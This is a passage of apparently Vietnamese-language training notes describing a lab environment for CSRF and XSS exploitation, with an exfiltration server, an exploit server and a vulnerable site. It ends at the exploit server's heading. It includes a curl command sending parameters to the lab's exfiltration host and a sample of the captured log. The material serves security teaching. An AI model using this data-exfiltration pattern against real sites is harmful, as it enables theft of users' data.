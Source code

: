 #### **1. Giới thiệu về Môi trường Thực hành**

Trong module này, tất cả các bài lab sẽ tuân theo một cấu trúc chung với các **máy chủ ảo (virtual hosts)** được sử dụng để phát triển, tinh chỉnh, và thực hiện các khai thác của chúng ta. Phần này sẽ thảo luận về các công cụ có sẵn và cách chúng ta sử dụng chúng để khai thác các lỗ hổng **CSRF** và **XSS** khác nhau.

#### **2. Các Thành phần của Môi trường Lab**

Môi trường lab sẽ bao gồm các thành phần chính sau:

- **Máy chủ Exfiltration**: `exfiltrate.htb`
- **Máy chủ Phát triển Khai thác**: `exploitserver.htb`
- **Ứng dụng web dễ bị tấn công**: `vulnerablesite.htb`

Chúng ta sẽ lần lượt đi qua các thành phần này và giải thích vai trò của chúng trong việc khai thác lỗ hổng.

#### **3. Máy chủ Exfiltration (`exfiltrate.htb`)**

Máy chủ exfiltration được sử dụng để thu thập và lưu trữ dữ liệu bị rò rỉ từ các yêu cầu HTTP. Máy chủ này sẽ ghi lại tất cả các tham số của các yêu cầu được gửi đến, bao gồm các tham số **GET**, **POST**, và các **HTTP headers**.

- **Truy cập log**: Bạn có thể truy cập log tại endpoint `/log` để xem tất cả dữ liệu bị rò rỉ.

##### **Ví dụ về Exfiltration**

Giả sử chúng ta muốn rò rỉ dữ liệu qua hai tham số là `param1` và `param2`, chúng ta có thể sử dụng lệnh sau:

```bash
curl -X POST --data 'param1=Hello' http://exfiltrate.htb?param2=World
```

Sau đó, chúng ta có thể kiểm tra log để xem dữ liệu đã được rò rỉ:

```bash
curl http://exfiltrate.htb/log
```

- **Phản hồi từ máy chủ log**:

```
/?param2=World
Host: exfiltrate.htb
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 172.17.0.1
Content-Length: 12
param1=Hello
```

Chúng ta cũng có thể truy cập log qua trình duyệt web bằng cách vào URL `http://exfiltrate.htb/log`.

#### **4. Máy chủ Phát triển Khai thác (`exploitserver.htb`)**
